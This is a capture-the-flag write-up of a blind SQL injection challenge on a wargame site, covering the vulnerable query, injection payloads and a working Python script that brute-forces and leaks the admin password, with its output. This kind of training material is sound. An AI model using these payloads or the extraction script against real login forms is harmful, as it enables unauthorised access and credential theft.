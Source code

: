 ```yaml
---
custom_edit_url: null
sidebar_position: 39
tags: [SQLi, Blind SQL injection]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a61aad74-8281-41ed-a2ae-9a7202c94f06)

We are provided with the SQLite query.

```sql
SELECT id FROM member WHERE id='admin' AND pw='{$_GET[pw]}'
```

In order to solve this challenge, we have to perform blind SQL injection.

&nbsp;

## Blind SQL injection

### Extracting the password length

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND length(pw)=[length] -- -
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=[length] -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. This will cause the `login success!` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND substr(pw, [index], 1)='[char]' -- -
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, [index], 1)='[char]' -- -'
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. This will cause the `login success!` message to be printed. We can brute force the password by changing the `[index]` and the `[character]`.

### Script

```python title="banshee_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'p4hrm6i519s3gb9g95dqsmqk8v'}
url = "https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "login success!" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "login success!" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\banshee_script.py     

[!] Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
[!] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%270%27+--+-
[+] Character at index 1: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='3' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%273%27+--+-
[+] Character at index 2: 3

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='1' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%271%27+--+-
[+] Character at index 3: 1

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='3' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%273%27+--+-
[+] Character at index 4: 3

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%270%27+--+-
[+] Character at index 5: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%279%27+--+-
[+] Character at index 6: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='1' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%271%27+--+-
[+] Character at index 7: 1

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='b' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%27b%27+--+-
[+] Character at index 8: b

[!] Extracted password: 0313091b
[!] Final payload: ?pw=0313091b
```

&nbsp;

If we provide the following URI parameter:

```
?pw=0313091b
```

The resultant query becomes:

```sql
SELECT id FROM member WHERE id='admin' AND pw='0313091b'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/8f2545dd-41be-4133-869a-cb3d3820f33d)
